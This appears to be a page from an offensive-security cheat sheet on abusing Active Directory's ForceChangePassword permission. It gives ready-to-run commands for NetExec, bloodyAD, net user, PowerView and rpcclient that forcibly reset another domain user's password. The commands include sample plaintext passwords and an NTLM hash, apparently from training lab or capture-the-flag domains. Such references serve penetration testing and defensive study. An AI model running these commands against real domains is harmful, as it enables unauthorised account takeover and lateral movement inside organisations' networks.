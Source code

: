 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="nxc" %}
{% code overflow="wrap" %}
```bash
nxc smb <target> -u <user> -p <pass> -M change-password -o USER=blake NEWPASS=Password123! 
```
{% endcode %}
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# Plaintext credentials
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'

# NTLM hash
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password <target-user> <pass>
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <user> <pass> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create a PSCredential object for the current user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Set the password for the target user
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Import powerview
Import-Module .\PowerView.ps1

# Change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
